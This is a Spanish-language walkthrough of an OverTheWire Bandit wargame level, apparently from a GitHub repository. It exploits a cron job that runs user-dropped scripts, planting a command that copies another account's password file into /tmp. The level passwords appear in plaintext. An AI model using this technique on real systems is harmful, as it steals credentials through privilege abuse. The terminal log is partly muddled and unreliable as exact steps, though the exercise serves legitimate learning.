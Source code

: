 ## Objetivo 

Un programa se ejecuta automáticamente a intervalos regulares desde cron, el programador de trabajos basado en el tiempo. Busque en /etc/cron.d/ la configuración y vea qué comando se está ejecutando.

NOTA: Este nivel requiere que cree su propio primer script de shell. ¡Este es un gran paso y deberías estar orgulloso de ti mismo cuando superes este nivel!

NOTA 2: Tenga en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desee conservar una copia...

## Datos de acceso al nivel

user bandit23
pass QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solucion

```
bandit23@bandit:~$ cd /etc/cron.d 
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ echo "cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt" > certa6.sh
-bash: certa6.sh: Permission denied
bandit23@bandit:/etc/cron.d$ ls -la
total 56
drwxr-xr-x   2 root root  4096 Oct  5 06:20 .
drwxr-xr-x 106 root root 12288 Oct  5 06:20 ..
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit22
-rw-r--r--   1 root root   122 Oct  5 06:19 cronjob_bandit23
-rw-r--r--   1 root root   120 Oct  5 06:19 cronjob_bandit24
-rw-r--r--   1 root root    62 Oct  5 06:19 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Oct  5 06:20 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ echo "cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt" > certa6.sh
-bash: certa6.sh: Permission denied
bandit23@bandit:/etc/cron.d$ cd 
bandit23@bandit:~$ cd /var/spool/$myname/foo
-bash: cd: /var/spool//foo: No such file or directory
bandit23@bandit:~$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt" > certa6.sh
-bash: certa6.sh: Is a directory
bandit23@bandit:/var/spool/bandit24/foo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt" > certa6.sh
-bash: certa6.sh: Is a directory
bandit23@bandit:/var/spool/bandit24/foo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/certa_test.txt" > certa6.sh"
> 
> ^C
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 certa6.sh
bandit23@bandit:/var/spool/bandit24/foo$ ls certa6sh
ls: cannot access 'certa6sh': No such file or directory
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/certa_test.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/var/spool/bandit24/foo$ 

```
## Notas adicionales


El script ejecuta y elimina todos los archivos en la carpeta '/var/spool/bandit24'. Este es el caso porque se ejecuta como usuario bandit24, por lo que la variable 'minombre' contiene el valor 'bandit24'. El bucle for recorre los archivos. La primera declaración if garantiza que se ignoren los directorios '.' y '..', que representan las carpetas actual y anterior. Dentro de la declaración if está el código para ejecutar un script, pero solo si el propietario es bandit23. Entonces el archivo será eliminado.

Dado que actualmente hemos iniciado sesión como usuario bandit23, podemos crear un script que nos dará la contraseña de bandit24. Primero, cree un archivo en la carpeta 'tmp'. Esto evita una eliminación anticipada del archivo y dispone de una copia en caso de que algo salga mal. Luego mueva el archivo a la carpeta '/var/spool/bandit24' y se ejecutará.

Puede repetir las líneas del archivo o utilizar un editor de texto como nano o vim. En nano, puedes usar CTRL+S para guardar y CTRL+X para salir.


Me orienté en los guiones vistos anteriormente, pero hay muchos métodos para escribir esto. La primera línea es, como siempre, el shebang, que indica que es un script bash. La segunda línea escribe la contraseña de bandit24 en un archivo en la carpeta creada.

Ahora sólo necesitas dar los permisos necesarios a la carpeta y al archivo. Finalmente, mueva el archivo a la carpeta correcta. También creé el archivo de salida y le otorgué todos los permisos.

## Referencias 

https://www.freecodecamp.org/espanol/news/como-usar-vim-tutorial-para-principiantes/